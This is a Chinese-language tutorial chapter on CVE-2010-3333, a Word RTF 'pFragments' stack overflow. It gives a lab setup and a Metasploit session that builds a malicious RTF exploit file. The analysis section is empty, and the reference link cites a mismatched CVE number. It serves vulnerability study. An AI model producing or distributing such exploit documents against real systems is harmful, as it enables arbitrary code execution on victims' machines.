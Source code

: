 # 7.1.9 cve-2010-3333 Microsoft Word RTF pFragments 栈溢出漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)

[下载文件](../src/exploit/7.1.9_ms_word_2010-3333)

## 漏洞描述

cve-2010-3333 漏洞是一个栈溢出漏洞，该漏洞是由于 Microsoft Office 软件中的 Open XML 文件格式转换器在处理 RTF 中的 "pFragments" 属性时存在栈溢出，可能导致任意代码执行。受影响的版本有：MS Office 2003 SP3、Office 2007 SP0、Office 2010 等。

## 漏洞复现

| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | OllyDbg | 版本号：吾爱专版 |
| 反汇编器 | IDA Pro | 版本号：7.0 |
| 漏洞软件 | MS Office | 版本号：2003 SP3 |

我们利用 Metasploit 来生成拒绝服务攻击样本：

```text
msf > search cve-2010-3333
   Name                                                    Disclosure Date  Rank   Description
   ----                                                    ---------------  ----   -----------
   exploit/windows/fileformat/ms10_087_rtf_pfragments_bof  2010-11-09       great  MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)

msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show info

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 6
target => 6

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set filename cve20103333.rtf
filename => cve20103333.rtf

msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'cve20103333.rtf' file ...
[+] cve20103333.rtf stored at /home/firmy/.msf4/local/cve20103333.rtf
```

## 漏洞分析

## 参考资料

- <https://www.cvedetails.com/cve/CVE-2010-2333>
